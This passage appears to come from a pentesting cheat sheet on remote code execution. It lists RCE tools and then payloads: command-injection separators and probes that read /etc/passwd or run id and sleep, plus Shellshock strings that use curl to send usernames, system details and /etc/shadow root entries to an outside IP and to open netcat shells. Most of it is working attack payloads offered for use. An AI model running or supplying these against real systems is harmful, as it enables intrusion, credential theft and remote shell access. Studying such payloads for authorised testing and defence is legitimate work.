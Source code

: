 Overall, RCE vulnerabilities can be highly critical, allowing attackers to gain complete control over a target system remotely. Penetration testers and bug bounty hunters should be familiar with the various techniques and tools used to identify these vulnerabilities, as well as the methods used to exploit them. By staying up to date with the latest security trends and techniques, testers can help ensure that web applications remain secure and protected against malicious attacks.

## Tools for RCE Conditions
[bane](https://github.com/AlaBouali/bane) = python module that contains functions and classes that are used to test the security of web/network applications
Burp Suite
[0wned](https://github.com/mschwager/0wned) - Code execution via Python package installation
[remote-code-runner](https://github.com/michaelliao/remote-code-runner) - A remote code running service
[rce-agent](https://github.com/square/rce-agent) - A gRPC based Remote Command Execution Agent
[presshell](https://github.com/scheatkode/presshell) - Get a command shell from a wordpress website



## RCE Payloads

**Some Basics**
```
|| 
| 
; 
'
'"
"
"'
& 
&& 
%0a
%0a%0d
%0Acat%20/etc/passwd
%0Aid
%0a id %0a
%0Aid%0A
%0a ping -i 30 127.0.0.1 %0a
%0A/usr/bin/id
%0A/usr/bin/id%0A
%2 -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #' |ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #\" |ping -n 21 127.0.0.1
%20{${phpinfo()}}
%20{${sleep(20)}}
%20{${sleep(3)}}
a|id|
a;id|
a;id;
a;id\n
```
**Bash**
```
() { :;}; /bin/bash -c "curl http://135.23.128.10/.testing/shellshock.txt?vuln=16?user=\`whoami\`"
() { :;}; /bin/bash -c "curl http://135.23.128.10/.testing/shellshock.txt?vuln=18?pwd=\`pwd\`"
() { :;}; /bin/bash -c "curl http://135.23.158.10/.testing/shellshock.txt?vuln=20?shadow=\`grep root /etc/shadow\`"
() { :;}; /bin/bash -c "curl http://135.23.158.10/.testing/shellshock.txt?vuln=22?uname=\`uname -a\`"
() { :;}; /bin/bash -c "curl http://135.23.158.10/.testing/shellshock.txt?vuln=24?shell=\`nc -lvvp 1234 -e /bin/bash\`"
() { :;}; /bin/bash -c "curl http://135.23.158.10/.testing/shellshock.txt?vuln=26?shell=\`nc -lvvp 1236 -e /bin/bash &\`"
() { :;}; /bin/bash -c "curl http://135.23.158.10/.testing/shellshock.txt?vuln=5"
```